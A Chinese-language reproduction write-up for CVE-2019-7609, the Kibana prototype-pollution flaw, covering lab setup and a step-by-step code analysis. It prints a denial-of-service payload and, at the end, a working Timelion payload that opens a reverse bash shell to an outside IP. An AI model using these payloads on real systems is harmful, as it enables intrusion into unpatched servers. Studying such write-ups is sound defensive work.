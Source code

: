 # （CVE-2019-7609）kibana < 6.6.0 未授权远程代码命令执行

> 原文：[https://www.zhihuifly.com/t/topic/3005](https://www.zhihuifly.com/t/topic/3005)

# （CVE-2019-7609）Kibana < 6.6.0 未授权远程代码命令执行

## 一、漏洞简介

Kibana 是一款开源的数据分析和可视化平台，它是Elastic Stack成员之一，设计用于和Elasticsearch协作。

## 二、漏洞影响

kibana < 6.6.0

## 三、复现过程

#### 环境搭建

```
docker pull docker.elastic.co/kibana/kibana:6.5.4 
docker network create elastic 
docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana 
```

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：

```
docker ps -a --no-trunc  # 找到启动脚本

在node启动命令后加上–inspect=0.0.0.0:9229 `docker commit kibana kibana-debug  # 保存修改后的镜像

docker rm -f kibana

docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器` 
```

kibana控制台：http://127.0.0.1:5601/ inspect调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：

```
.es(*).props(label.__proto__.cookie="aaa") 
```

![image](img/9a3a297dbf10f93de4d4c1d15c3befa9.png)

要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![image](img/44800d6579d52da535c974d4dde2bccc.png)

DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：

```
if(obj.jsCode) eval(obj.jsCode) 这种白给的
express ejs模版引擎中的动态函数调用 
```

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了...）。

![image](img/5683c9c5820ad96490a5e14f48ffd65c.png)

作者据此得出结论：kibana在创建新进程 创建进程可就是个敏感的行为了，能不能污染命令/参数呢？ 来动态看下进程创建的过程，

![image](img/d3554995f17a97b92165d80eb8c1b3e7.png)

首先调用normalizeSpawnArguments.apply()处理参数，

![image](img/3e612bd87bca6bbcfcd1f2a1ebfb2c57.png)

跟进，

![image](img/05681bac7f3e189036d358c6ab020915.png)

这里实际是在处理child_process.spawn(command[, args][, options])的第三个参数options。

![image](img/eda6cc86f815f71873150bc1b960ca92.png)

这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。 作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。 回想下控制台报的错："Starting inspector on 0.0.0.0:9229 failed: address already in use"。 这句话透露出的是：此时正在创建一个node命令进程，并且使用了--inpect:0.0.0.0:9229参数。 这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE_OPTIONS变量，

![image](img/fd15bd5f2823619147a2e89946b310d5.png)

通过这个变量，可以覆盖node进程的参数。 也就是说，现在我们能控制node进程的参数了。这就很有用了，比如--eval参数是可以直接执行代码的。

![image](img/25e2762ea11200fd5c323941992b5ef1.png)

但是，NODE_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向--eval这种是用不了的。

不过作者找到了另一个参数--require，

![image](img/20cce70b8077d6b301213cf164a15fa5.png)

这个有点像php里的auto_prepend_file，预加载一个文件。

![image](img/30933216448a3f0da3ddbdd05205e08e.png)

现在我们可以看成有一个文件包含的洞了，怎么RCE呢？ 通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。 作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![image](img/5b2be9e43d0629d0d4e019a053f52646.png)

最后payload如下：

> 将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ') 
```

然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞